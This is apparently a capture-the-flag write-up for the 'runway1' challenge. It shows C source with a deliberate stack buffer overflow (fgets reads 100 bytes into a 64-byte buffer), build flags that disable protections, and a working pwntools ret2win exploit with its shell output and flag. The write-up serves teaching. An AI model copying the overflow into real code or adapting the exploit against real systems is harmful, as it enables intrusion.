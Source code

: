 # runway1

The following `runway1.c` file was provided:

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <fcntl.h>
#include <sys/sendfile.h>

int win() {
    printf("You win! Here is your shell:\n");

    system("/bin/sh");
}

int get_favorite_food() {
    char food[64];

    printf("What is your favorite food?\n");
    fflush(stdout);

    fgets(food, 100, stdin);

    printf("Hmmm..... %s...", food);
}

int main() {
    int rand_num;

    srand(time(0));
    rand_num = rand() % 100;

    get_favorite_food();

    if (rand_num <= 50) {
        printf("That sounds delicious!\n");
    } else if (rand_num <= 70) {
        printf("Eh, that sounds okay.\n");
    } else if (rand_num <= 80) {
        printf("That's my favorite food too!\n");
    } else if (rand_num <= 90) {
        printf("I've never tried that before!\n");
    } else if (rand_num <= 100) {
        printf("Ew! I would never eat that.\n");
    }

    return 0;
}
```

The issue here lies with the `fgets` call in `get_favorite_food()`. It allows 100 bytes of input when `food` is only 64 bytes. 
This is a basic example of a `ret2win` pwn challenge. Since the return address of the function is stored onthe stack, it can be
overwritten to point to some other function. To be able to do this, we need to make sure that there is no canry enabled, which would
halt the program. Luckily, the povided `Makefile` has the following:
```makefile
all: runway1.c
        gcc runway1.c -o runway1 -fno-stack-protector -no-pie -m32
```

This is extremely convenient. Not only is the canary disabled with `-fno-stack-protector`, but `-no-pie` is enabled, which means that the address 
of functions will be the same across runs, meaning that we don't need to do any tricks like leaking libc.
The `-m32` option just means that this is compiled as a 32-bit executable, which for this challenge is not so important but it does mean that each 
address is 4 bytes.

The first step to build our exploit is to find the offset to the return address within `get_favorite_food()`. Many people use `pwntools`' `cyclic` feature
to handle this, but I think it's easier to just use [this website](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) with `pwndbg` for `gdb`.

There's no need to set a breakpoint for this, I just ran the program, entered the cyclic string from that website, and `pwndbg` returned

> Invalid address 0x63413563

Pasting that address into the website from before, I got the offset `76`.

From here, the exploit is rather straightforward:
```python
import pwn

pwn.context.terminal = ["tmux", "splitw", "-h"]
pwn.context.binary = elf = pwn.ELF("./runway1")

if pwn.args.REMOTE:
    io = pwn.remote("challs.pwnoh.io", 13401)
else:
    io = pwn.process("./runway1")


win = elf.symbols['win']

io.recvuntil(b'food?\n')
payload = b'A' * 76 + win.to_bytes(4, "little")

io.sendline(payload)
io.interactive()
```


And running it, we get this:
```
# python3 sender.py REMOTE SILENT
$ ls
flag.txt
run
$ cat flag.txt
bctf{I_34t_fl4GS_4_bR34kf4st_7c639e33ffcfe8c2}
```

Giving the flag `bctf{I_34t_fl4GS_4_bR34kf4st_7c639e33ffcfe8c2}`


